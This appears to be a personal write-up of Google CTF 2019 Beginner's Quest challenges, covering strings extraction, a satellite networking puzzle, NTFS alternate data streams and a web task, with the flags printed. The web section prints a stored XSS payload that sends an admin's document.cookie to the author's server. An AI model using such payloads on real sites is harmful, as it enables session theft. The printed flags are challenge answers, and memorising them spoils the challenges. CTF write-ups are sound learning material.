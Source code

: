 # Google CTF 2019 | Beginner's Quest

## What I have learned
* `strings` is an excellent program that allows for easy extraction of "human-readable" strings from a file.
* Alternate Data Streams exists.
* CTFs are pretty fun.

## Enter Space-Time Coordinates | misc

Ok well done. The console is on. It's asking for coordinates. Beating heavily on the console yields little results, but the only time anything changes on your display is when you put in numbers.. So what numbers are you going to go for?  You see the starship's logs, but is there a manual? Or should you just keep beating the console?

### Solution

The attachment is a zip-file containing a `log.txt` file and a `rand2` binary. The flag `CTF{welcome_to_googlectf}` is hidden within the human-readable characters of the binary. The command `strings rand2 | grep 'CTF'` fetches the flag.

## Satellite | networking

Placing your ship in range of the Osmiums, you begin to receive signals. Hoping that you are not detected, because it's too late now, you figure that it may be worth finding out what these signals mean and what information might be "borrowed" from them. Can you hear me Captain Tim? Floating in your tin can there? Your tin can has a wire to ground control?

Find something to do that isn't staring at the Blue Planet.

### Solution

The attachment is a zip-file containing a `init_sat` program and a pdf. In the PDF there is a picture of a satellite with the text `osmium` painted on the side of it. The program prompts the user for a satellite to connect to and naturally we'll try `osmium`. We connect successfully and we're given three options, one of which displays more information. There, we find [a link](https://docs.google.com/document/d/14eYPluD_pi3824GAFanS29tWdTcKxP_XUxx7e303-3E/edit) to a document containing "the remaining config data". The content is Base64-encrypted and decryption yields the following hint:
```
Username: wireshark-rocks
Password: start-sniffing!
```

The packet-response of that same option contains the flag: `CTF{4efcc72090af28fd33a2118985541f92e793477f}`

## Home Computer | forensics

Blunderbussing your way through the decision making process, you figure that one is as good as the other and that further research into the importance of Work Life balance is of little interest to you. You're the decider after all. You confidently use the credentials to access the "Home Computer."

Something called "desktop" presents itself, displaying a fascinating round and bumpy creature (much like yourself) labeled  "cauliflower 4 work - GAN post."  Your 40 hearts skip a beat.  It looks somewhat like your neighbors on XiXaX3.   ..Ah XiXaX3... You'd spend summers there at the beach, an awkward kid from ObarPool on a family vacation, yearning, but without nerve, to talk to those cool sophisticated locals.

So are these "Cauliflowers" earthlings? Not at all the unrelatable bipeds you imagined them to be.  Will they be at the party?  Hopefully SarahH has left some other work data on her home computer for you to learn more.

### Solution [FAIL]

The attachment is a zip-file containing a `family.ntfs` file. Through googling I found out that I could explore it using 7-zip. The obvious first choice was to look through the user directories. There I found `credentials.txt` which contained the string `I keep pictures of my credentials in extended attributes.`.

Not being very well-versed in file-systems, I spent the next hour trying to find out what this meant. A large portion of that was spent trying to figure out how to read system variables through 7-zip. Mounting the file-system didn't help me either.

I looked up the solution and was stunned with that I found. I had no idea that Alternate Data Streams were a thing and am amazed with how weird they are. Now knowing the answer, I believe that I gave up too quickly. While searching for "extended attributes" I found many articles which I now realize mentioned ADSs. I guess patience IS a virtue.

7-zip allows you to read ADSs. Right-clicking `credentials.txt` and choosing `Alternate Streams` opens a new folder with the "file" `FILED`. It's an image containing the flag: `CTF{congratsyoufoundmycreds}`.

## Government Agriculture Network | web

Well it seems someone can't keep their work life and their home life separate. You vaguely recall on your home planet, posters put up everywhere that said "Loose Zips sink large commercial properties with a responsibility to the shareholders." You wonder if there is a similar concept here.

Using the credentials to access this so-called Agricultural network, you realize that SarahH was just hired as a vendor or contract worker and given access that was equivalent. You can only assume that Vendor/Contractor is the highest possible rank bestowed upon only the most revered and well regarded individuals of the land and expect information and access to flow like the Xenovian acid streams you used to bathe in as a child.

The portal picture displays that small very attractive individual whom you instantly form a bond with, despite not knowing. You must meet this entity! Converse and convince them you're meant to be! After a brief amount of time the picture shifts into a biped presumably ingesting this creature! HOW DARE THEY. You have to save them, you have to stop this from happening. Get more information about this Gubberment thing and stop this atrocity.

You need to get in closer to save them - you beat on the window, but you need access to the cauliflower's  host to rescue it.

### Solution

The task contains a [link](https://govagriculture.web.ctfcompetition.com/) that leads to a blog-type page. There are two posts, a submittable text-field, and a nav-bar with a link to `/admin`. Submitted text does not reflect anywhere on the site, but doing so returns the peculiar message `Your post was submitted for review. Administator will take a look shortly.`. This lead me to believe that "someone" will be looking at my message, and that that someone will load my unsanitized message in their browser. Preferably logged in as admin.

I set up a bare-bones web-server using Flask and submitted the following:
```
<script>
document.write("<img src='<my_ip>?cookie=" + document.cookie.toString() + "'/'/>");
</script>
```
The resulting request contained the flag `CTF{8aaa2f34b392b415601804c2f5f0f24e}`.
